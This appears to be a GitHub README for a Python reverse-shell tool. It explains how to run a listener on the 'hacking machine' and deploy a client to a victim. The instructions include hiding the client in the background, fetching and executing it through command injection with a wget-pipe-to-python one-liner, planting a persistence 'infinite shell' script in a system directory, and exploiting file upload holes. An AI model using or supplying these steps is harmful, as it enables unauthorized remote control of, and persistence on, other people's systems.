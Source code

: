 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment \[PREFERRED\]
(works with cmd line injection)

- \[SERVER\] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
- - `python3 -m http.server 8080`   
- \[CLIENT]\ Download + Execute from client machine
- - `wget -O - <host:port/rs_client.py> | python3`
- \[SERVER\] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
- - Follow these steps once server is connected to client.
- - Navigate to specific dir or Make a hidden dir
- - - `cd /usr/bin/local`  
- - Download from your rs_server
- - - `wget <host:port/infiniteShell.py>`
- - Run in background witn nohup  
- - - `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment \[ALT]\
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

